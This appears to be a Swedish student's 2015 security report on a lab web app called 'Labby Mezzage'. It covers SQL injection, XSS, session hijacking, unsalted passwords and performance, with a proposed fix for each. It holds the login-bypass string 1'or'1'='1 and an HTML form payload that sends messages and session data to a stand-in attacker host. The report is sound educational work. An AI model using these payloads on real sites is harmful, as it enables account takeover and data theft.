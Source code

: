 Hampus Jarleborn - HJ222HI

# Rapport

## Säkerhetsproblem

## SQL Injections

##### Beskrivning

SQL injections är när användaren skickar in egna SQL satser för att komma åt eller förstöra information på sida. Det krävs dock att sidan använder en databas, för annars finns det inget att skicka förfrågningar till.[1]

##### Följder

Som det står i texten över så kan en användare om SQL injections är möjliga komma åt saker som lösenord och annan känslig data, och använda dessa på de sett dom finner bäst. Och det är sällan eller aldrig bra.


#### I Labby Mezzage

I Labby Mezzage finns det möjligheter för att göra SQL injections, tillexempel kan man logga in som senaste inloggade användaren genom att skriva in vilken mail adress som helst som email och sedan skriva 1'or'1'='1 som då gör att det alltid blir true.

##### Förslag på lösning

Lösningen skulle jag säga är att istället för att skriva SQL sataserna som dom är gjorde i Labby Mezzage så bör man parametrisera dom istället för att konkatenera dom.
Man kan också skydda sig mot detta genom att använda storedprocedures och på så viss inte vissa SQL satsen.[1]




## XSS (Cross site scripting)

##### Beskrivning

Cross site scripting eller XSS är när en använadere lyckas stoppa in kod som hen själv har skrivit i din sida. Detta sker allt som oftast genom inputs. Och så kan hen föra in kod som kan ändrar vad sidan kan göra eller hur den ser ut.


#####Följder

XXS kan vara farligt då det gör så "hacker"-användaren kan stjäla information i form av känslig data om antingen andra användaren eller själva utvecklaren. "hacker"användaren kan också ändra vad sidan gör så att den blir obrukbar och på så sätt inte används och då tjänar ju inte utvecklaren några pengar.[2]

##### Förebyggande åtgärder

Det viktiga är att man validerar man ska alltid se till så att man säkrar att det som kommer in till sidan är det man vill att det ska vara och inget annat. Framförallt ska man se till så att man inte kan stoppa in taggar, varken script eller HTML. Man kan också göra en så kallad white-list validation där man kräver vissa tecken och eller längder på det användaren matar in.

#### I Labby Mezzage

I Labby Mezzage kan man inte mata in script taggar, men däremot så kan man mata in HTML och CSS. Detta gör att man kan påverka sidans utseende. Detta kanske låter harmlöst men man kan till exempel dölja fältet där man matar in meddelandet och sedan göra ett eget, som inte bara skickar ett meddelande till sidans server utan som också skickar vidare användarens sessionID och uppgifter. Det ända man hade behövt göra är att skriva detta i meddelande rutan

    <form action="hacksite.com/HackTheTHing.php">
      E-post:
   
     <input type="text" name="epost" value="exampel@ex.com">
     <br>
     Message:
    <input type="text" name="message" value="">
     <br><br>
     <input type="submit" value="Submit">
    </form>


##### Förslag på lösning

Som jag skrev ovan så borde man valdiera bättre och på så viss inte låta taggar hamna på sidan. ## Session Hijacking

##### Beskrivning

Session Hijacking är när en "hacker"-användare stjäler en annan användares session, detta kan tillexempel görs genom att man lurar dom att klicka på en länk som i det dolda skickar vidare information om deras session och eller cookie till "hacker"-användaren. Denne kan sedan mata in session/cookie IDet i sin egen sesson och på så sätt ta över den andra användarens inlogging. [3]

##### Förebyggande åtgärder

Först och främst så kan måste man precis som med XSS validera allt väldigt noga. Det är också viktigt att man förstör sessionen när användaren loggar ut för då så loggas även "hacker"-användaren ut.

#### I Labby Mezzage
I Labby Mezzage kan man med hjälp av XSS stjäla användarens sessions föratt sedan användadet för att logga in.

##### Förslag på lösning

Som jag skrev ovan om XSS så behövd det valideras mera. Sen så behöver man förstöra sessionen när användaren loggas ut så att även "hacker"-användaren loggas ut.


## Brist på salt

##### Beskrivning

Brist på salt kan göra maten smaklös. Nä men skämt och sido, om man inte haschar eller krypterar lösenord så sparas dom i klartext i databasen vilket gör att alla som har tillgång till den ser dom, både utvekclare och eventuella hackers. [4]


##### Förebyggande åtgärder

Att alltid se till att hascha alla lösenord så att dom inte sparas i klartext i databasen

#### I Labby Mezzage

vid inloggining så krypteras eller haschas lösenordet. Detta ser man om man kollar i /lib/login.js där vakren hasch eller salt används för att de kryptera lösenordet

##### Förslag på lösning

Är att tillexempel använda ett salt som man defingerar och sedan kör lösenordet igenom. [4]


## Prestandaproblem Det finns både inline scripts och inline css detta gör att sidan blir långsammare att ladda. Hade allt legat i en fil så hade det gått mycekt snabbare att läsa in. Nu måste webläsaren gå igenom hela sidan och rendera olika saker om varandra och det tycker inte webläsaren om. Man går också en bättre structur om man delar upp olika saker i oliak filer beroedne på innehåll.

Appliaktionen läser på alla sidor in två filer som heter MessageBoard.js och Message.js dessa används dock inte på alla sidor och detta gör att sidan skickar flemeddelanden. Detta gör att sidan skickar HTTP request ionödan vilket gör att sidan blir långsammare.

Det finns även javascriptfiler som laddas in i headern, så borde det inte göras. Dom borde laddas in i botten så att alla HTML renderas innan javascripten laddas. Sidan hade också blivit snabbare om javascriptfilerna var minifierade för då hade det helt enklet varit mindre kod att läsa in. Ett bra verktyg för detta är http://jscompress.com/ där kopierar man in sin kod och så renderar dom om den till en fil med bara en rad.

## Mina Egna övergripande reflektioner Denna uppgiften har varit väldigt rolig, det är ju lite av en pojkdröm att kunna hacka. Det har också varit väldigt givande att prova då det skapat en större förståelse för hur lätt det är att bryta igenom dålig kod. En sak som gör mig lite nervös var att jag tycket det var svårt att hitta prestanda problem. Och det känns som att jag bara har pekat ut dom självklar och jag misstänker att det finns fler. Men jag har läst på vilekt gjorde att jag hittade lite till och jag tror att jag kommer bli en bättre kdoare om jag fortsätter läsa på.

### Källor

[1] OWASP foundation, "Top 10 2013-A1-Injection", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A1-Injection [Hämtad: 1 december, 2015].

[2] OWASP foundation, "Top 10 2013-A3-Cross-Site Scripting", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) [Hämtad: 1 december, 2015].
[3] OWASP foundation, "Top 10 2013-A2-Broken Authentication and Session Management", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management [Hämtad: 3 december, 2015].

[4] wikibooks, "Lösenordshantering - MD5 och salt", 19 februari 2010 [Online] Tillgänglig: https://sv.wikibooks.org/wiki/L%C3%B6senordshantering_-_MD5_och_salt [Hämtad: 4 december, 2015].
